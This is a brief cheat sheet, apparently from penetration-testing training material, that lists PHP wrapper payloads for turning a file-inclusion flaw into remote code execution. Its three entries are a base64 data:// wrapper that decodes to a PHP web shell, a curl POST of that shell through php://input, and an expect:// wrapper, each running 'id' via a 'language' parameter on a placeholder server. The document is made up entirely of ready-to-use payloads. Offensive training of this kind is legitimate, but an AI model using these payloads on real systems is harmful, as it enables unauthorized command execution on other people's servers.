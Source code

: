___

# PHP Wrappers

| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`                    | RCE with data wrapper   |
| --------------------------------------------------------------------------------------------------------------------------- | ----------------------- |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper  |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                        | RCE with expect wrapper |
